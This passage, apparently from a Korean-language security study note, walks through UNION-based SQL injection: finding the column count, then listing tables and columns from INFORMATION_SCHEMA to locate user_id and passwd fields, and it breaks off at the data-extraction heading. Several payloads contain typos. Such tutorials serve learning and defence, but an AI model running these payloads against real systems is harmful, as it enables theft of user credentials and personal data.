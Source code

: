 * 위에서 말한거와 같이 칼럼의 수가 맞지 않는 경우 위처럼 에러가 발생하게 된다. 

* 따라서, `UNION SELECT 1, 2, 3, .... --`로 개수를 늘려가면서 진행하면 아래와 같이 결과가 나올 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178671191-95fb7f3b-db73-41e3-84e6-dafa97c0717e.png" width = 350>
</p>

```SQL
UNION SELECT COUNT(TABLE_NAME) FROM INFORMATION.SCHEMA
WHERE TABLE_SCHEMA = DATABASE()`
```

* **해당 명령어를 통해 현재 위취한 데이터베이스의 테이블의 개수를 검색할 수 있다.**

### 3. Union으로 테이블 명 확인

데이터베이스에서 제공하는 **information.schema**를 통해 테이블 명을 확인한다.

* 이 내용은 맨 밑에서 다루겠습니다 ! 궁금하신분은 맽 밑으로 !!

해당 주소 찾기의 데이터베이스의 칼럼은 총 5개 인 것을 확인했으므로, 앞으로의 `UNION`은 5개로 한정하여 검색한다.

```SQL
' UNION SELECT 1, 2, 3, 4 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES --
```
<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178675478-002543bc-db45-402a-96d3-89a287489e82.png" width = 350>
</p>

* 결과는 이 처럼 여러 개의 테이블 이름이 나오게 된다.

* 결과에서 볼 수 있듯이, Error-Based SQL Injection에서 사용한 **Members** 테이블을 확인했다.

* 이 테이블에 대한 칼럼들을 확인 할 것이다.

### 4. Union으로 칼럼 명 확인

```SQL
' UNION SELECT 1, 2, 3, 4, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS --
```
<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/178677782-b75535bd-c524-40e6-a5b3-50513a711aa0.png" width = 350>
</p>

* 해당 **information_schema의 칼럼**을 읽어 올 수 있다.

* user_id, passwd 등 개인 정보를 쉽게 가져 올 수 있다는 것을 알 수 있다.

* 하지만, 너무 많은 것을 가져 오기 때문에, `WHERE` 조건을 이용하여 원하는 정보만 추출해야한다.

```SQL
' UNION SELECT 1, 2, 3, 4, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'MEMBERS' --
```

### 5. 주요 정보 추출

